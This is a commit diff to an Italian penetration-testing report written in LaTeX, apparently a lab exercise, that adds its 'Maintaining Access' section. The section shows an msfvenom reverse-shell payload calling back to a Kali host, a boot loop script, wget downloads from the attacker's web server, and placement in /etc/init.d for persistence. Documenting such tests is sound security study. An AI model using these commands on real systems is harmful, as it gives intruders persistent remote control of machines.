

Before and after one commit to vincenzo-emanuele/momentum-penetration-testing, a LaTeX book (metodologie-utilizzate/metodologie_utilizzate.tex, which reads metodologie-utilizzate/capitoli/post_exploitation.tex): part of page 38 of 39 before the commit and two parts of pages 38 and 39 of 41 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
post-exploitation completion

```diff
--- a/metodologie-utilizzate/capitoli/post_exploitation.tex
+++ b/metodologie-utilizzate/capitoli/post_exploitation.tex
@@ -79,5 +79,32 @@ L'identificativo della chiave associata a tale stringa lascia ben poco spazio al
     \label{fig:root}
 \end{figure}
 \section{Maintaining Access}
-Ottenuti i massimi privilegi, è possibile installare una \emph{backdoor} all'interno della macchina target in modo da mantenere l'accesso anche in seguito ad un'eventuale \emph{patch} delle vulnerabilità identificate. Nell'ambito del presente processo di \emph{Penetration Testing} verrà installata una \emph{backdoor} persistente,
-\subsection{}
+Ottenuti i massimi privilegi, è possibile installare una \emph{backdoor} all'interno della macchina target in modo da mantenere l'accesso anche in seguito ad un'eventuale \emph{patch} delle vulnerabilità identificate. Nell'ambito del presente processo di \emph{Penetration Testing} verrà installata sulla macchina target una \emph{backdoor} persistente che consiste in una \emph{reverse shell} che si collega alla macchina \emph{Kali} accettando comandi da essa.
+\subsection{Generazione della \emph{backdoor} mediante \emph{Metasploit}}
+\emph{Metasploit} mette a disposizione un tool, chiamato \emph{msfvenom} che consente di generare l'eseguibile di una \emph{reverse shell} pronta all'uso da installare sulla macchina target. Dalla macchina \emph{Kali}, è stata avviata la console di \emph{Metasploit} ed è stato eseguito il comando:
+\begin{lstlisting}[language=bash]
+    $ msfvenom -a x64 -platform linux -p linux/x64/shell/reverse_tcp
+            LHOST=10.0.2.15 LPORT=4444 -f elf -o shell.elf
+\end{lstlisting}
+Il vantaggio di tale approccio risiede nel fatto che la \emph{backdoor} generata non necessita di meccanismi di autenticazione, consentendo alla macchina \emph{Kali} di interagire liberamente con la macchina target.
+\subsection{Creazione dello script per l'avvio della \emph{reverse shell}}
+Al fine di eseguire la \emph{backdoor} ad ogni avvio del sistema, è stato previsto uno \emph{script}, chiamato \emph{in.sh}, avente come unico obiettivo quello di richiamare in loop la \emph{reverse shell} precedentemente generata (figura \ref{fig:in}). La presenza del loop ha come scopo quello di evitare la terminazione della \emph{backdoor} al termine della prima interazione con la macchina \emph{Kali}.
+\begin{figure}[h]
+    \centering
+    \includegraphics[scale=1]{capitoli/images/in.png}
+    \caption{Script che avvia la \emph{reverse shell}}
+    \label{fig:in}
+\end{figure}
+\subsection{Trasferimento della \emph{backdoor} sulla macchina target}
+L'eseguibile della \emph{backdoor} ed il relativo \emph{script} che si occupa di richiamarla sono stati creati sulla macchina \emph{Kali} e successivamente trasferiti sulla macchina target sfruttando il \emph{Web Server} di \emph{Kali} ed il comando \emph{wget} della macchina target. In particolare, sulla macchina \emph{Kali}, i file \emph{`shell.elf'} e \emph{`in.sh'} sono stati inseriti nella directory \emph{`/var/www/html'} e successivamente è stato avviato il \emph{Web Server `apache2'} mediante il comando:
+\begin{lstlisting}[language=bash]
+    $ sudo systemctl start apache2
+\end{lstlisting}
+D'altro canto, sulla macchina target è stato effettuato l'accesso come utente \emph{root} e sono stati prelevati i \emph{file} mediante una connessione al \emph{Web Server} di \emph{Kali} sfruttando i comandi:
+\begin{lstlisting}[language=bash]
+    $ wget http://10.0.2.15/shell.elf
+    $ wget http://10.0.2.15/in.sh
+\end{lstlisting}
+I file prelevati sono stati spostati nella \emph{directory `/etc/init.d'} e gli sono stati forniti i permessi di esecuzione mediante i comandi:
+\begin{lstlisting}[language=bash]
+    $ chmod +x /etc/init.d/shell.elf
@@ -83,0 +132 @@ Ottenuti i massimi privilegi, è possibile installare una \emph{backdoor} all'in
+    $ set LHOST 10.0.2.15
```
Also changed, not shown: metodologie-utilizzate/frontmatter/frontespizio.tex (+1 -1 lines), metodologie-utilizzate/capitoli/images/backdoor_access.png (added), metodologie-utilizzate/capitoli/images/in.png (added), metodologie-utilizzate/capitoli/images/service.png (added), metodologie-utilizzate/capitoli/post_exploitation.tex (32 more changed lines), 1 other file.
